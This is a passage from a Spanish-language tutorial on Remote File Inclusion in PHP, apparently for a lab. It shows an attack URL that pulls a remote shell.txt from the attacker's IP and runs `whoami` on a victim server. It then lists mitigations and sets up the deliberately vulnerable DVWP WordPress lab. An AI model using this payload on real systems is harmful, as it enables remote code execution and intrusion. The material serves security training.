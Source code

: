 3. **Lanzar el ataque:**
	```
   http://victima.com/index.php?page=http://tu-ip/shell.txt&cmd=whoami
   ```

   Resultado esperado: se ejecuta `whoami` en el servidor víctima.

---

## Medidas de mitigación

- Validar y sanitizar TODAS las entradas del usuario.
- Deshabilitar `allow_url_include` y `allow_url_fopen` en el `php.ini`.
- Usar listas blancas de rutas y archivos permitidos.
- Aplicar el principio de **mínimo privilegio**.

---

## Notas finales

RFI es peligrosa porque permite **ejecución remota de código**, que puede usarse para subir shells, escalar privilegios o acceder a datos sensibles.

> Siempre que una aplicación cargue archivos dinámicamente, asegúrate de controlar estrictamente **qué rutas se aceptan** y **desde dónde se cargan**.

---

# Secuencia del ataque

Vamos a desglosar paso a paso como sería un ataque de *RFI*

## Paso 1 - Despliegue del laboratorio

[Proyecto GitHub - DVWP:](https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

[Plugin vulnerable de WordPress - Gwolle Guestbook:](https://es.wordpress.org/plugins/gwolle-gb/)

**DVWP:** se refiere a **Damn Vulnerable WordPress**, una versión deliberadamente insegura de WordPress para practicar **ataques a CMS**

Acción: clonamos repositorio en nuestra máquina local

```Shell
git clone https://github.com/vavkamil/dvwp
cd dvwp
docker-compose up -d --build
```

Resultado: tenemos un laboratorio en local para practicar la vulnerabilidad RFI

```URL
localhost:31337
```
